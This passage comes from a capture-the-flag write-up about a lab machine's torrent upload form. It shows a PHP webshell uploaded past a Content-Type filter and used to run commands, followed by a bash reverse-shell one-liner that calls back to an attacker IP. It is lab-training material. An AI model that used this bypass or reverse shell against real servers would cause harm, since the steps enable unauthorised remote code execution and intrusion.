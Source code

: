 That is a real security vulnerability, because a server should never allow a
user to upload anything that can be named `.php`, as then the server is likely
to execute it as PHP code.

If I change the `Content-Type` header to `application/x-php`, it blocks it
(even with the file name changed back to `.png`:

[![repeater with changed content-
type](https://0xdfimages.gitlab.io/img/image-20200621124643359.png)_Click for
full size
image_](https://0xdfimages.gitlab.io/img/image-20200621124643359.png)

Changing the content doesn’t seem to matter:

[![repeater with changed
content](https://0xdfimages.gitlab.io/img/image-20200621124754152.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20200621124754152.png)

### Upload

Based on the filter testing, it seems like I can name a file `.php` and
include PHP code, as long as I change the `Content-Type` to a valid image.

[![webshell
upload](https://0xdfimages.gitlab.io/img/image-20200621124856522.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20200621124856522.png)

I’ll send it from Repeater (or I could upload the shell again through the
form, and use Proxy to intercept the request and modify it).

When I check `/torrent/upload`, there is a PHP file there (seems to be named
with a SHA1 hash of something):

![image-20200621125015779](https://0xdfimages.gitlab.io/img/image-20200621125015779.png)

And it gives execution:

    
    
    root@kali# curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Shell

To get a shell, I’ll start `nc` and pass `cmd` as a reverse shell:

    
    
    root@kali# curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'"
    

At `nc`:

    
    
